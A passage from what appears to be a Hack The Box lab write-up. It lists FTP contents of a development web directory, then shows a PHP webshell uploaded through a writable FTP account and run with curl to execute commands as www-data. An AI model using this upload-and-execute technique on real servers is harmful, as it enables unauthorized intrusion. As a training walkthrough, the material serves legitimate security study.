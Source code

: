 

In here, there's a `dev` directory:



    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxr-x    8 0        1001         4096 Jul 12 11:52 dev
    226 Directory send OK.



It contains the website as I've already enumerated:



    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 0        0            4096 May 26 19:52 css
    drwxr-xr-x    2 0        0            4096 May 26 19:52 img
    -rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
    drwxr-xr-x    3 0        0            4096 May 26 19:52 js
    drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
    drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
    -rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
    drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
    226 Directory send OK.



I collected the three PHP files (`index.php`, `team.php`, and
`pypi/register.php`). None of them actually have any dynamic content.

#### Upload Webshell

It does turn out that this account can write here. I'll upload a simple
webshell:



    ftp> put /opt/shells/php/cmd.php 0xdf.php
    local: /opt/shells/php/cmd.php remote: 0xdf.php
    200 PORT command successful. Consider using PASV.
    150 Ok to send data.
    226 Transfer complete.
    35 bytes sent in 0.00 secs (26.7656 kB/s)



I can trigger it and get execution:



    root@kali# curl http://dev.sneakycorp.htb/0xdf.php --data-urlencode "cmd=id"
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



There is clearly a cron cleaning up the dev directory, as the webshell
will be deleted quickly.
